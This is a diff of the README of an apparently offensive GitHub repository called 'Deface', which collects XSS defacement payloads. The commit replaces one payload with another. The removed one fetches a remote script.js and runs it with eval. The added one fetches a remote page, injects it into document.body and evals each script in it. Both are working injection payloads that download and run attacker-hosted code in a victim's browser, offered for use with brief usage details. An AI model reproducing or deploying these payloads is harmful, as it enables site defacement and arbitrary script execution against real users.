

Before and after one commit to Karthikdude/Deface, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -5,16 +5,13 @@ This repository contains various XSS (Cross-Site Scripting) deface payloads that
 
 
 
-### Using `eval` with Fetch API
+### Using with Fetch API
 
 ```html
-<script>
-fetch('https://karthikdude.github.io/Deface/script.js')
-    .then(response => response.text())
-    .then(script => {
-        eval(script);
-    });
-</script>
+<script> fetch('https://karthikdude.github.io/Deface/')
+.then(response => response.text()) .then(html =>
+{ document.body.innerHTML = html; const scripts = document.body.getElementsByTagName('script');
+for (let script of scripts) { eval(script.innerText); } }); </script>
 ```
 
 **Details:** This payload fetches an external JavaScript file and executes it directly using `eval`. While this is a less secure approach, it is effective in environments where execution of external scripts is needed.
````
